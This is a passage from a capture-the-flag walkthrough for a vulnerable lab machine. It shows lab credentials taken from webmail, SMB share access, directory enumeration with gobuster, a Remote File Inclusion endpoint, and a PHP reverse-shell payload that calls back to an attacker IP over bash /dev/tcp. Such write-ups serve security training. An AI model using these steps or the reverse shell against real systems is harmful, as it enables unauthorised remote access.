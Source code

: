 <img width="1358" height="805" alt="SCREEN04" src="https://github.com/user-attachments/assets/8551cc5b-1b5e-4b2e-84cc-36ef904ba80c" />

<img width="1211" height="741" alt="SCREEN05" src="https://github.com/user-attachments/assets/0df0f3ba-aa57-4b38-82bd-6c73e6297bf7" />

---

### What is the hidden directory?

1. Access the authenticated SquirrelMail interface at `http://<TARGET_IP>/squirrelmail/src/webmail.php`. Review the most recent email, which contains SMB credentials

- Password: **)s{A&2Z=F^n_E.B`**

<img width="888" height="314" alt="SCREEN06" src="https://github.com/user-attachments/assets/c0caa15e-287d-4669-a4e7-b9f6a59f7baf" />

2. Use the discovered credentials to access Miles Dyson's private SMB share. Navigate to the notes directory and retrieve important file

```bash
smbclient //IP/milesdyson -U milesdyson
cd notes
get important.txt
```

<img width="647" height="113" alt="SCREEN07" src="https://github.com/user-attachments/assets/e96cbf17-27fb-4fc2-8de3-20f0f9736f4d" />

---

### What is the vulnerability called when you can include a remote file for malicious purposes?

1. The answer is: `Remote File Inclusion`

---

### What is the user flag?

1. Perform directory enumeration on the discovered hidden directory `/45kra24zxs28v3yd/administrator/`

```bash
gobuster dir -u http://IP/45kra24zxs28v3yd/ -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt
```

<img width="716" height="416" alt="SCREEN08" src="https://github.com/user-attachments/assets/73d2f5e5-88e9-4b9a-b0c4-67933629f41c" />

2. Further enumeration reveals a vulnerable endpoint `http://<TARGET_IP>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php`. This endpoint is susceptible to Remote File Inclusion via the `urlConfig` parameter

Create a PHP reverse shell payload. Save this as `shell.php`:

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/IP/4444 0>&1'");
?>
```
